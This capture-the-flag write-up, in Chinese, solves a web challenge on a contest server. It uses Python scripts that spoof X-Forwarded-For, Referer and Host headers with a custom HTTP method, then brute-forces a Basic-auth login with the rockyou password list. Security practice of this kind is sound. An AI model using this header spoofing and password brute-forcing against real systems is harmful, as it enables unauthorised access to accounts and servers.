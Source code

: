 # 01. Monster

![](../../docs/web/imgs/01_monster/01.png)

### Solution

#### Step 1: 先照著題目的提示，使用 `GIVEMEFLAG` method 進入

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `GIVEMEFLAG` 進入了，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `Your IP must be 127.0.0.1.`。

![](./../../docs/web/imgs/01_monster/02.png)

#### Step 2: 透過 `X-Forwarded-For` header 來滿足題目的 `IP` 要求

接著我們照著指示要把 `IP` 變成 `127.0.0.1.` 但是我們沒辦法直接透過 `Host` header 來改變 `IP`，因為會被擋掉，因此我們需要透過 `X-Forwarded-For` header 來改變 `IP`。

```py

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "http://140.115.59.7:12002/",
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `X-Forwarded-For` header 來改變 `IP` 為 `127.0.0.1.` 後，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `You must come from https://www.adlSecurity.com.`。

![](./../../docs/web/imgs/01_monster/03.png)

#### Step 3: 透過 `Referer` header 來滿足題目的 `Referer` 要求

接著我們照著指示要把 `Referer` 變成 `https://www.adlSecurity.com.` 但是我們沒辦法直接透過 `Host` header 來改變 `Referer`，因為會被擋掉，因此我們需要透過 `Referer` header 來改變 `Referer`。

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index3.html', 'w') as output_file:
    output_file.write(response.text)
```

![](./../../docs/web/imgs/01_monster/04.png)

接著我們保持上面的要求設定：使用 `GIVEMEFLAG` method， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，就可以進到 `admin/`。

![](./../../docs/web/imgs/01_monster/05.png)

### Step 4: 找出帳號密碼

我們可以根據提示 `Now, you must loginhitori & 🤘rockyou!!!` 來找出帳號密碼，因此我們可以使用 [`rockyou.txt`](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) 來爆破帳號密碼。

```py
from base64 import b64encode
import requests
from bs4 import BeautifulSoup
from requests.exceptions import ReadTimeout, ConnectTimeout

method = "GIVEMEFLAG"
login_url = 'http://140.115.59.7:12002/admin'
login_headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1",  # Step 2
    "Authorization": None,
}


def set_login(username, password):
    authorization = b64encode(f"{username}:{password}".encode('utf-8')).decode('ascii')
    login_headers["Authorization"] = f"Basic {authorization}"

count = 0
with open('rockyou.txt', 'r', encoding='latin-1') as rockyou:
    for line in rockyou:

        count += 1
        line = line.strip()
        print(f"try {count} password: {line}")
        set_login("hitori", line)
        while True:
            try:
                response = requests.request(
                    method=method, 
                    url=login_url, 
                    headers=login_headers, 
                    timeout=1
                )
                break
            except ReadTimeout:
                print("read timeout, retry")
            except ConnectTimeout:
                print("connect timeout, retry")
        
        if response.status_code == 200:
            print(f"found password!: {line}")
            soup = BeautifulSoup(response.text, 'html.parser')
            tag_content = soup.find('code').text.strip()
            print("Content within <code> tags:")
            print(tag_content)  # flag is here!!!
            break
```

最後我們利用上面找到的帳號密碼來登入，並且使用 `GIVEMEFLAG` method ， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，再加上最後爆破出來的密碼，就可以拿到 flag。

**這樣就拿到 flag 了！！！**

![](./../../docs/web/imgs/01_monster/06.png)
